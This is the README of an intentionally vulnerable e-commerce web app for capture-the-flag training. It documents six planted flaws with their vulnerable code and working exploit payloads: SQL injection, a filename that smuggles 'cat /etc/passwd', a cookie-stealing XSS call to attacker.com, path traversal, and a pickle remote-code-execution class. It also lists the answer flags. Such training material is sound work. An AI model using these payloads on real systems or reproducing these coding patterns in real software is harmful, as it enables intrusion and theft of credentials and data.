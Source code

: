 # VulnShop - Vulnerable E-commerce Platform

A deliberately vulnerable e-commerce platform for security testing and CTF challenges. This application contains 6 different vulnerabilities that you need to exploit to find the flags.

## Setup

1. Create a virtual environment:
```bash
python -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate
```

2. Install dependencies:
```bash
pip install -r requirements.txt
```

3. Initialize the database and create sample data:
```bash
python init_db.py
```

4. Run the application:
```bash
python app.py
```

The application will be available at http://localhost:5000

## Vulnerabilities

### 1. SQL Injection in Product Search
**Endpoint**: `/search`
**Flag**: `FLAG{sql_1nj3ct10n_1s_d4ng3r0us}`

The search functionality is vulnerable to SQL injection. The query is constructed using string concatenation:
```python
cursor.execute(f"SELECT * FROM product WHERE name LIKE '%{query}%' OR description LIKE '%{query}%'")
```

**Exploitation**:
1. Visit the search page
2. Enter the following payload:
```
' UNION SELECT id, username, email, password FROM user WHERE username='admin' --
```
3. This will reveal the admin user's password containing the flag

### 2. Command Injection in Image Processing
**Endpoint**: `/process-image`
**Flag**: `FLAG{c0mm4nd_1nj3ct10n_br34ks_s3cur1ty}`

The image processing endpoint uses shell=True and direct string concatenation:
```python
command = f"convert {image_path} -resize 800x600 {image_path}"
```

**Exploitation**:
1. Upload an image
2. Modify the filename to include a command:
```
image.jpg; cat /etc/passwd
```
3. The command will be executed on the server

### 3. XSS in Product Reviews
**Endpoint**: `/add-review/<product_id>`
**Flag**: `FLAG{xss_1s_4_br0ws3r_vuln3r4b1l1ty}`

Reviews are rendered without any sanitization:
```python
return f'<div class="review"><p>Rating: {rating}</p><p>Review: {review}</p></div>'
```

**Exploitation**:
1. Go to any product page
2. Submit a review with the following payload:
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```
3. When other users view the product, their cookies will be sent to the attacker

### 4. Directory Traversal in Product Images
**Endpoint**: `/product-image/<filename>`
**Flag**: `FLAG{4_d1r3ct0ry_tr4v3rs4l_1s_n0t_s3cur3}`

The image endpoint doesn't validate the filename:
```python
return send_file(f'uploads/{filename}')
```

**Exploitation**:
1. Try accessing files outside the uploads directory:
```
../../../etc/passwd
```
2. The flag is in a secret file in the uploads directory

### 5. Insecure Deserialization in Cart
**Endpoint**: `/update-cart`
**Flag**: `FLAG{d3s3r14l1z4t10n_1s_r1sky}`

The cart update endpoint uses pickle.loads() on user input:
```python
cart = pickle.loads(base64.b64decode(cart_data))
```

**Exploitation**:
1. Create a malicious pickle object:
```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('cat /etc/passwd')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
print(base64.b64encode(pickled).decode())
```
2. Submit the encoded payload to the cart update endpoint

### 6. Weak Password Reset
**Endpoint**: `/reset-password`
**Flag**: `FLAG{w34k_t0k3ns_4r3_br34k4bl3}`

The password reset uses simple base64 encoding:
```python
token = base64.b64encode(email.encode()).decode()
```

**Exploitation**:
1. Request a password reset for a user
2. The token will be returned in the response
3. Decode the token to get the email:
```python
import base64
decoded = base64.b64decode(token).decode()
print(decoded)
```

## Test Accounts

1. Regular User:
   - Username: test
   - Password: password123
   - Email: test@example.com

2. Admin User:
   - Username: admin
   - Password: FLAG{sql_1nj3ct10n_1s_d4ng3r0us}
   - Email: admin@vulnshop.com

## Note
This application is intentionally vulnerable and should only be used in a controlled environment for educational purposes. The vulnerabilities demonstrated here should never be implemented in production applications. 